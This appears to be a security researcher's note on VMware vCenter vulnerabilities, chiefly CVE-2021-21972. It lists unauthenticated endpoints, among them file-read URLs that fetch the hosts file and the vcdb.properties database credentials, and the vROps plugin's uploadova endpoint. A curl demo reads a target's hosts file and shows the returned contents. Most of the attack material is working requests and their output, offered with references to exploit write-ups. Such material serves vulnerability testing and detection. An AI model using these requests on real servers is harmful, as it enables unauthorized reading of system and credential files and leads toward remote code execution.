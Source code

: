 
- /vsphere-client/?csp
- /eam/vib?id=C:\\Windows\\System32\\drivers\\etc\\hosts
- /eam/vib?id=/etc/hosts
- /eam/vibd?id=/etc/hosts
- /eam/vibd?id=C:\\ProgramData\\VMware\\vCenterServer\\cfg\\vmware-vpx\\vcdb.properties
- /ui/vropspluginui/rest/services/checkmobregister
- /ui/vropspluginui/rest/services/uploadova
- /checkmobregister
- /updatetelemetryInfo
- /checkLicenseSuiteApi
- /checkVsanLicenseValidity
- /getvcdetails
- /getstatus
- /testvcconnection
- /testvropsconnection
- /dashboard
- /capacity
- /capacity/memory
- /capacity/cpu
- /capacity/storage
- /license/allLicenses
- /vcclusters
- /vccontention
- /vcclusteralerts
- /inventoryscoreboard
- /alerts
- /vropsURL
- /vcIP
- /serverguid
- /Isceienabled
- /alertdetails
- /vsanalertdetails
- /osdetails
- /vmdetails
- /drs
- 
- POST /vropsinstallation content-type=application/json; charset=UTF-8
- POST /uploadova
- POST /configurevrops content-type=application/json; charset=UTF-8
- C:\\ProgramData\\VMware\\vCenterServer\\logs\\vsphere-client\\logs\\dataservice.log
- C:\\ProgramData\\VMware\\vCenterServer\\cfg\\vsphere-client\\compatibility-matrix.xml
- C:\\ProgramData\\VMware\\vCenterServer\\cfg\\vsphere-client\\webclient.properties
- C:\\ProgramData\\VMware\\vCenterServer\\cfg\\vmware-vpx\\vcdb.properties


### Demo
```
$ curl -ik https://10.x.y.z/vsphere-client/?csp
HTTP/1.1 200 OK
Server: Apache-Coyote/1.1
Set-Cookie: JSESSIONID=CB600A5211B6C4B056FAFCFB86DEBDC805C0; Path=/vsphere-client/; Secure; HttpOnly
X-UA-Compatible: IE=edge
X-Frame-Options: SAMEORIGIN
Cache-Control: no-cache, no-store, must-revalidate
Pragma: no-cache
Expires: Thu, 01 Jan 1970 00:00:00 GMT
Content-Type: text/html;charset=utf-8
Content-Length: 7650
Date: Wed, 24 Feb 2021 06:09:04 GMT


curl -ik https://10.x.y.z/eam/vib?id=C:\\Windows\\System32\\drivers\\etc\\hosts
HTTP/1.1 200 OK
Transfer-Encoding: chunked
Date: Wed, 24 Feb 2021 05:55:37 GMT
Server: Apache

# Copyright (c) 1993-2009 Microsoft Corp.
#
# This is a sample HOSTS file used by Microsoft TCP/IP for Windows.
```


### Ref
- https://twitter.com/jas502n/status/1316992409088094209
- [CVE-2021-21972 Vmware vcenter未授权任意文件漏洞分析](https://www.cnblogs.com/potatsoSec/p/14444897.html)
- [Unauthorized RCE in VMware vCenter](https://swarm.ptsecurity.com/unauth-rce-vmware/)
- https://attackerkb.com/topics/5nZX40suYA/cve-2021-21980
- [VMSA-2021-0027 的额外东东](https://articles.zsxq.com/id_1cnl8w2r5hsh.html)
- [Stealing administrative JWT's through post auth SSRF (CVE-2021-22056)](https://blog.assetnote.io/2022/01/17/workspace-one-access-ssrf/)
